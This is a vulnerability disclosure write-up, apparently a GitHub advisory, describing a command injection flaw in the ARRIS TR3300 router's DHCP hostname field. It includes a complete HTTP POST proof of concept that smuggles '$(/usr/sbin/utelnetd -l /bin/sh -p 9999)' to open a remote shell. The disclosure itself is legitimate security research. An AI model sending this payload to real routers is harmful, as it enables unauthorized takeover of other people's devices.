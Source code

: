 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `dhcp` function(`wan_dyna.html`), `hostname` is directly passed by the attacker, so we can control the `hostname` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`wan_account`), and then call the function `nvram_set `to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

As you can see here, in `sub_1DE34` function, the initial input will be extracted.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, in `sub_4079F8` function, the initial input will cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

BUT!!!!!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:60%;" /></div>

**When receiving user input, there are very strict checks. But we can use `$()`  to bypass it!**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>



## PoC

We set `hostname` as **$(/usr/sbin/utelnetd -l /bin/sh -p 9999)**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 378
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_dyna.html
Upgrade-Insecure-Requests: 1

dhcpc_enable=&hostname=$(/usr/sbin/utelnetd -l /bin/sh -p 9999)&dyna_mtu=1500&itsbutton1=Apply&webpage=wan_dyna.html&action=Apply&wan_access=eth1&wan_proto=dhcp&et1macaddr=00%3A30%3ABD%3AF6%3AEE%3A94&m_wan_hostname=TR3300&m_autodns=1&pppoe_autodns=1&dhcp_autodns=1&m_wan_aliasip=&todo=save&h_dhcpc_enable=enable&todo=save&this_file=wan_dyna.html&next_file=wan_dyna.html&message=
```

<div  align="center"><img src="./images/8.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>
